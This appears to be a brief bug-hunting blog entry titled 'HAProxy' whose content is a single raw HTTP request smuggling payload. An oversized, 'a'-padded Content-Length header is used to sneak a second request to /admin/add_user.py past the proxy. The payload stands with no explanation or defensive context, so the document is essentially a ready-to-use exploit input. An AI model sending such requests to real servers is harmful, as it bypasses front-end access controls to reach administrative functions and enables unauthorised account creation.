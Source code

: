 ```yaml
---
title: HAProxy
tags: [bug hunting, haproxy]
categories: [bug hunting, HAProxy]
date: 2022-05-08 11:33:00
---
```



POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60
 
GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz
